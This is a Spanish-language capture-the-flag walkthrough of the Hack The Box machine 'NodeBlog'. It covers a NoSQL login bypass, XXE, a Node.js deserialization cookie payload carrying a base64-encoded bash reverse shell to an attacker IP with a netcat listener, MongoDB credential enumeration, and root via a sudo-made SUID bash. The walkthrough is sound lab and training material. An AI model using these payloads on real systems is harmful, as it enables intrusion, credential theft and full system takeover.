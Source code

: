 # NodeBlog

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: NoSQL Injection (Authentication Bypass) / XXE File Read / NodeJS Deserialization Attack (IIFE Abusing) / Mongo Database Enumeration

Te prepara para las **Certificaciones**: eJPT eWPT

![image](https://github.com/user-attachments/assets/395644d6-020a-4ce1-8373-5ca37d4b714d)<br><br>

# Reconocimiento

Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/4706e6e1-3901-48ca-a913-aed124e87ef9)

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>

`http://10.10.11.139:5000/login` -> Vemos un panel de autenticación<br><br>

# Explotación NoSQL

Utilizando una Query NOSQL nos permite entrar en `http://10.10.11.139:5000/login`, 
Hay que tener en cuenta el `Content-Type: application/json`, 
`"password":{"$ne":"admin"}` -> Quiere decir que la contraseña NO es admin.<br>

![image](https://github.com/user-attachments/assets/300b4145-da3c-4b70-aa42-5475482e8c0d)<br><br>

# Explotación XXE

Tenemos un campo de subida de archivos<br>

![image](https://github.com/user-attachments/assets/abaa0b9d-2b8d-453e-b84b-5554c50d2469)<br><br>


Nos indica la sintaxis  XML <br>

![image](https://github.com/user-attachments/assets/5644d81d-dae4-4d72-aadd-b90b581f0828)<br><br>


Con `burpsuite` hacemos la estructura XML y mostramos los puertos  haciendo `echo $(0x0035)` es el 53 por ejemplo, podemos ver los puertos que no veíamos desde nuestra maquina<br>

![image](https://github.com/user-attachments/assets/8367e387-ddfd-4edf-99ae-f66462889eb4)<br><br>


# Explotación Unserelize

Si acontecemos un error en el `NOSQL` podemos suponer que la raiz del servidor esta en `/opt/blog`<br>


![image](https://github.com/user-attachments/assets/f79f9011-2c8e-438f-bf27-bce7a6db3964)<br><br>



- Buscamos `server.js` por que es por defecto como están los servidores de js.
- Vemos que importa el `const serialize`.
- Luego hace un `c = serialize.unserialize`.
- Y Leemos que `c` tiene algo que ver con la `cookie`, entonces podemos suponer que  la cookie viaja serialize y luego el servidor la  unserialize.<br><br>

![image](https://github.com/user-attachments/assets/77df1566-d4e1-4d87-9ea1-6e2e1d8dc56f)<br><br>

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ -> Este articulo muestra los ataques posibles. **nosotros debemos hacer el de unserialize**<br>

Esta es la data que voy a intentar mandar a ver si me llega la reverse shell, la urlencode con `burpsuite` y la pego en mi `cookie`<br>

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTUvNDQzIDA+JjEK | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) });}()"}
```
- rlwrap nc -nlvp 443<br><br>

La urlencode con `burpsuite`<br>

![image](https://github.com/user-attachments/assets/59432a6b-b17d-458b-a31d-f14f89f15652)<br><br>

Lo pego en la `Cookie` y recargo la pagina<br>

![2024-07-29_18-42](https://github.com/user-attachments/assets/ca6c3045-d8d8-4b74-8eb3-e38507fa54e1)<br><br>



# Escalada de privilegios

Hacemos: `chmod 777 admin`, `cd admin` y ya nos deja entrar, vemos la flag del user:<br>

![image](https://github.com/user-attachments/assets/9be4271f-6190-4c23-8d0d-be260f3ba02f)<br><br>

### Mongo (TCP 27017)

- `mongo` -> nos conectamos
- `show dbs` -> vemos base de datos
- `use blog` -> usamos base de datos
- `show collections` -> Listar colecciones 
- `db.users.find()` -> Vemos el usuario "admin" y la contraseña<br><br>


 `sudo -l` -> Vemos que podemos poner cualquier comando con sudo, entonces nos ponemos `SUID` la bash y la lanzamos con `bash -p`, somos root<br>
 
![image](https://github.com/user-attachments/assets/8f1ac9ba-6cd9-4612-9160-2cbc4466f49b)<br><br>


Flag final:<br>

![image](https://github.com/user-attachments/assets/27b38a6e-57ff-4114-b2bc-b0c8e16b2764)<br><br>


